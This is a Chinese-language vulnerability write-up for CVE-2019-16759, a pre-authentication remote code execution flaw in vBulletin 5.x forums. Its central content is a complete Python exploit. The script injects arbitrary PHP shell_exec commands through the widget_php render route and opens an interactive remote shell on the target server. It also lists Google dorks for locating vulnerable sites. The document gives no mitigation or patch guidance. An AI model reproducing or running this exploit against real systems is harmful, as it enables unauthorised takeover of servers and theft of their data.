

## 前言  

vBulletin 是一个商用的论坛程序，在全球拥有数万用户且增长速度很快。该论坛采用PHP Web语言及MySQL数据库的方式进行架构。《财富》 500强和Alexa排名前100万的公司网站大部分都在使用的一款互联网论坛程序。

## 漏洞简介  

CVE-2019-16759 vBulletin 5.x 0day pre-auth RCE exploit ，无需预认证即可执行远程代码执行漏洞 

## 漏洞危害  

不需要在目标论坛上注册帐户,即可在运行vBulletin安装的服务器上执行shell命令 

## 影响范围  

### 产品  

> vBulletin 5.x 

### 版本  

> vBulletin v5（5.0.0到5.5.4）版本  

### 组件  

> vBulletin  

## 漏洞复现  

## POC

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```
### 复现截图  


